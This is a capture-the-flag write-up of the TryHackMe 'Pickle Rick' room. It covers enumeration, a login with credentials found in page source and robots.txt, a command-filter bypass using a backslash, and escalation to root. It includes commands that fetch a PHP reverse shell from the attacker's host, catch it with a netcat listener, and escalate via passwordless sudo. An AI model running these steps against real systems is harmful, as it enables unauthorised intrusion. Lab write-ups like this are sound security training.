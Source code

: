 <p align="center">
  THM : Pickle Rick<br>
  Difficulty : Easy<br>
  Room link : https://tryhackme.com/room/picklerick<br>
  <img src="https://i.imgur.com/3ypKR1f.png">
</p>

## Summary
- [NMAP Scan](#nmap-scan)
- [Manual Website Enumeration](#manual-website-enumeration)
- [Dirb Scan](#dirb-scan)
- [Getting a shell](#getting-a-shell)
- [Find flags](#find-flags)
- [Conclusion](#conclusion)

## NMAP Scan

Do the following cmd : nmap -A -p- -oN nmapResults.txt 10.10.181.166

```
# Nmap 7.92 scan initiated Fri Aug 19 23:14:31 2022 as: nmap -A -p- -oN nmapResults.txt 10.10.181.166
Nmap scan report for 10.10.99.97
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 66:c4:52:9e:e4:3a:d7:d1:cb:3f:d7:0e:e6:09:82:6e (RSA)
|_  256 3c:31:4a:49:af:7d:8e:75:70:40:db:04:69:d5:18:e6 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 19 23:14:48 2022 -- 1 IP address (1 host up) scanned in 17.18 seconds
```
## Manual website enumeration
If we go to the index page of the website, we can see that Rick is talking about a password that he forgot.
![alt text](https://i.imgur.com/1xrSiU4.png)  

Looking at the source code of the page, we can see that Rick left a comment containing a username.  
![alt text](https://i.imgur.com/1YaCAlY.png)  
So now we have a username : **R1ckRul3s**

One of the first things I look for when i'm enumerating a website is the robot.txt file. So let's see if there is a robot.txt file on this web server.  
![alt text](https://i.imgur.com/cqP0pux.png)  
And we found a strange looking strings... It's not a page of the webserver so.. Maybe the password that Rick lost ? Let's write it down for the moment.  
## Dirb Scan
First I tried a simple dirb scan but it didn't found any interesting pages, so I decided to try using the -X parameter to search for page with extensions like so : ```dirb http://10.10.99.97/ -X .php```  
```
┌──(attacker㉿AttackBox)-[~/Bureau/CTF/Pickle_Rick]
└─$ dirb http://10.10.99.97/ -X .php     

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Aug 19 23:20:38 2022
URL_BASE: http://10.10.99.97/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.99.97/ ----
+ http://10.10.99.97/denied.php (CODE:302|SIZE:0)
+ http://10.10.99.97/login.php (CODE:200|SIZE:882)
```
And we found a login.php page ! (The denied.php page redirects us to login.php)  
So let's go to this page and try to login with the informations we gathered :
![alt text](https://i.imgur.com/reIQn7I.png)  

Using **R1ckRul3s** as login and **Wubbalubbadubdub** as password, we are redirected to a portal.php page.  
![alt text](https://i.imgur.com/B3hfAUr.png)  

We cannot access any pages using the menu on top of the page. But here we have an input field that seems to be used to run commands. So let's try using **whoami**.  
![alt text](https://i.imgur.com/2u9jgra.png)  
We see that we can run linux commands. So we can try to use some other commands... I tried some useful commands and , we can run ls, wget, sudo -l, and cat, but there is some filters that prevent from using some commands , like for cat.  
We can easily bypass those filters by just putting a '\\' inside the command, like so : **c\at file**.  
Now we have multiple choices... I could just find the different flags using this command input, but I want to get a reverse shell, it will be more easier to search on the machine.  
Like I said, we can use sudo -l and ...  
![alt text](https://i.imgur.com/FKO4Icb.png)  
Yes... www-data can run any commands as root, without password.

## Getting a shell
I tried to download a reverse shell to the machine using wget, but it didn't work, because www-data don't have write premissions to /var/www/html. So I just ran the same command as sudo like so : ```sudo wget [my ip]/php-reverse-shell.php```.
Then I just set up a netcat listener on my machine, I entered http://[machine ip]/php-reverse-shell.php in the URL of my web browser, and I got a reverse shell.
Now I can just run ```python3 -c 'import pty; pty.spawn("/bin/bash")'``` and then ```sudo su``` to get a shell as root.  

## Find flags
Now I can get the 3 flags (ingredients for the potion that Rick needs) :  
What is the first ingredient Rick needs ? : **cat /var/www/html/Sup3rS3cretPickl3Ingred.txt**  
Whats the second ingredient Rick needs ? : **cat /home/rick/second\ ingredients**  
Whats the final ingredient Rick needs ? : **cat /root/3rd.txt**  

## Conclusion
In this CTF, we see that it can be useful to read the source code of pages on a web server, we can find useful informations, even if there is no credentials we can find CMS versions, links to other pages...  
I also learned that it is very easy for an attacker to get a full control of the machine if the user www-data has too much permissions. It is very important to manage permissions properly, www-data should not have the right to run any command as root.
Also, even if there is filters on command input, there is sometimes a way to bypass it.

